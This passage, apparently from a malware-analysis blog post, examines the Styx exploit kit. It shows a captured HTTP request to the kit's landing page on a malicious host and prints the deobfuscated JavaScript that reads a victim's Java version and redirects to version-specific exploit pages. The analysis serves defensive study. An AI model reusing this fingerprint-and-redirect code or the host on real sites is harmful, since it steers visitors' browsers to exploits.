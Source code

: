 As you can see, users received the HTTP response status code `302 Found`, which is a common way to perform a redirection, especially in most exploit kits. Take note of the location where the users will be redirected to--this is the `landing` page.

```
GET /GMCs8O-0t1mL0W0av-02t7-R0Haa80/PWCC0Xp/Yl0-0bBp/0aqK/I01y9T/0tHt_X0vxAc/0Ws1E-14LN81-3AP511P_K10uk/b20JbN/I0q9d_G0nN/Bn0_2Ez70jkxl_0djEQ_0tBaG0/mFs30bAB/k0LmHc11-PDt0G3/eT0zi9_u128R/R0t/cKd0b_7xj0-Bem413X/Ap0Pf8-n0Fma_y0v_SK11/7PJJ0_xLXi06g_kV0n/S0H0p/x1L-0WjS80sA_c90GFk_30I6p/A050/RL0P_Poo0S/BL60_DzoH0lN_250r/iq80fhfB0x-WRG0GT5e/ HTTP/1.1
Accept: image/gif, image/jpeg, image/pjpeg, image/pjpeg, application/x-shockwave-flash, */*
Accept-Language: en-us
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0)
Accept-Encoding: gzip, deflate
Host: pphnq.downsdlowerscars.com
Connection: Keep-Alive
```

The response from that redirection sends users to the plugin detection stage of the Styx exploit kit. Basically, it is where we will find the actual obfuscated JavaScript payload with the `PluginDetect` component, version 0.8.0. [PluginDetect](http://www.pinlady.net/PluginDetect/), as mentioned on the linked website, "is a JavaScript library that detects browser plugins," such as the following:

- Java
- QuickTime
- Shockwave
- Adobe Flash
- Adobe Reader
- Windows Media Player
- Silverlight
- VLC Player
- ActiveX
- RealPlayer

The status and version identification of some of the mentioned browser plugins above allow the exploit kit to tailor the correct exploit for the compromised system. Anyway, lets take a closer look at the obfuscated portion of the script. As a side note, I used `node` and `js-beautify` combined with a little `pbcopy` action and `Sublime Text` editor to beatify this ugly mess. Here's the output from what I was able to deobfuscate:

```js
function NyMpwEMG() {
    var FHQxrYhsp = window.PluginDetect.getVersion("Java");
    if (typeof FHQxrYhsp == 'string') {
        FHQxrYhsp = FHQxrYhsp.split(",");
        if (FHQxrYhsp[3].length == 1) {
            FHQxrYhsp = "" + FHQxrYhsp[1] + "0" + FHQxrYhsp[3];
        } else {
            FHQxrYhsp = "" + FHQxrYhsp[1] + FHQxrYhsp[3];
        }
    } else {
        FHQxrYhsp = 0;
    } if ((FHQxrYhsp >= 500 && FHQxrYhsp <= 632) || (FHQxrYhsp >= 700 && FHQxrYhsp <= 709)) {
        return "JSwkYux.html";
    };
    if ((FHQxrYhsp >= 633 && FHQxrYhsp <= 645)) {
        return "ySnWHR.html";
    };
    if ((FHQxrYhsp >= 710 && FHQxrYhsp < 725)) {
        return "XdMGGiCPB.html";
    };
    return "uDLhux.html";
}
location.href = NyMpwEMG();
```
